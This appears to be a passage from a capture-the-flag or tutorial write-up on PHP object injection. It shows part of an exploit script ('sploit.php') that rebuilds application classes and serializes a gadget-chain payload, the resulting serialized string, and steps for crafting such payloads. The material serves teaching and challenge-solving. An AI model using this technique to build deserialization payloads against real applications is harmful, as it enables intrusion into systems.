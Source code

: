 ```php
    {
        $this->filters = $filters;
        $this->endl = $endl;
    }

    function format($txt)
    {
        foreach ($this->filters as $filter) {
            $txt = $filter->filter($txt);
        }
        $txt = str_replace('\n', $this->endl, $txt);
        return $txt;
    }
}

class OutputFilter
{
    protected $matchPattern;
    protected $replacement;

    function __construct($pattern, $repl)
    {
        $this->matchPattern = $pattern;
        $this->replacement = $repl;
    }

    function filter($data)
    {
        return preg_replace($this->matchPattern, $this->replacement, $data);
    }
}

$l = new Lyrics('123', new Song('a', 'b', 'c')); // Song a by <i>b</i> viewed.
echo serialize($l);
```

Usage:
```
$ php sploit.php 2>/dev/null
O:6:"Lyrics":2:{s:9:"*lyrics";s:3:"123";s:7:"*song";
O:4:"Song":4:{s:9:"*logger";O:6:"Logger":1:{s:12:"*logwriter";
O:14:"LogWriter_File":2:{s:11:"*filename";s:10:"song_views";
s:9:"*format";O:13:"LogFileFormat":2:{s:10:"*filters";
a:1:{i:0;O:12:"OutputFilter":2:{s:15:"*matchPattern";
s:19:"/\[i\](.*)\[\/i\]/i";s:14:"*replacement";s:9:"<i>\1</i>";}}
s:7:"*endl";s:1:"";}}}s:7:"*name";s:1:"a";s:8:"*group";s:1:"b";s:6:"*url";s:1:"c";}}
```

Steps:

1. copy the necessary classes to separate file (remove useless functions)
2. modify variables accordingly so that it modifies function behavior as intended
3. comment out input filtering code that modifies replaced values
4. instantiate and serialize the payload object
5. inspect object structure and values in memory at runtime (debugging breakpoints, etc.)
